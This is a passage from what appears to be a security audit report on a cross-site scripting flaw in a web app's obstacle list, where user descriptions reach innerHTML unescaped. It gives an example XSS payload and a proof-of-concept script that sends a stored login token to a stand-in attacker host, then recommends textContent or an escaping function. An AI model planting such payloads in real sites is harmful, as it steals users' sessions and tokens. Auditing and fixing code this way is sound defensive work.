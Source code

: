 **Action Required:** 🚨 **IMMEDIATE**

---

## 2. High-Risk Vulnerabilities 🟠

### 2.1 XSS (Cross-Site Scripting) Vulnerability

**Severity:** HIGH
**Location:** `public/app.js:858-870`

**Issue:**
```javascript
listView.innerHTML = app.obstacles.map(obs => `
    <div class="alert-card" onclick="showObstacleDetails({id: '${obs.id}'})">
        <p class="alert-description">${obs.description}</p>  // ❌ Unescaped user input
        <span>📍 ${obs.zone || 'Zone inconnue'}</span>        // ❌ Unescaped user input
    </div>
`).join('');
```

**Risk:**
- User-submitted descriptions can contain malicious JavaScript
- Example attack: `<img src=x onerror="alert('XSS')">`
- Can steal user tokens, session data, or perform actions on behalf of users

**Proof of Concept:**
```javascript
// Attacker creates obstacle with malicious description:
description: "<script>fetch('https://evil.com/steal?token='+localStorage.getItem('token'))</script>"
```

**Recommendations:**

**Option 1: Use textContent instead of innerHTML**
```javascript
function createObstacleCard(obs) {
    const card = document.createElement('div');
    card.className = 'alert-card';

    const desc = document.createElement('p');
    desc.className = 'alert-description';
    desc.textContent = obs.description; // ✅ Safe

    card.appendChild(desc);
    return card;
}
```

**Option 2: Implement HTML escaping function**
```javascript
function escapeHtml(text) {
    const map = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#039;'
    };
    return text.replace(/[&<>"']/g, m => map[m]);
}

listView.innerHTML = app.obstacles.map(obs => `
    <p class="alert-description">${escapeHtml(obs.description)}</p>
`).join('');
```